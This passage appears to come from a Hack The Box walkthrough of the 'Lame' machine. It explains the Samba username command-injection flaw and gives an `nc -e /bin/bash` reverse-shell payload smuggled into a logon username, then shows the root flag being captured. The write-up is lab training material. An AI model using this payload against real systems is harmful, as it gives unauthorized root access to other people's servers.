 So basically on Linux, \` \` are used to execute and put the output in place, just like $(). It seems Samba is allowing that to happen inside the username. Metasploit is calling nohup (which starts the process outside the current context) and then a payload. Let's login anonymously and then change the user using following command payload

- `logon "./='nohop nc -e /bin/bash <ip_addr> <port>`

 I fired up my netcat listener on 1234 port and tried this payload.
 ![smb exploit](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/lame/smb_exploit.png)

 I got shell with root access on my netcat listener. We can go to the users home directory and grab the user flag by using the following command: `cat /home/markis/user.txt`
 ![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/lame/user_flag.png)

 Similarly, we can grab the root flag using the following command: `cat /root/root.txt`
![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/lame/root_flag.png)

Ans Voilà, we pwned lame.
Hope you guys enjoyed reading this and learned something new.

Keep Hacking..

Until we meet again...

![lame pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/lame/lame_pwned.png)
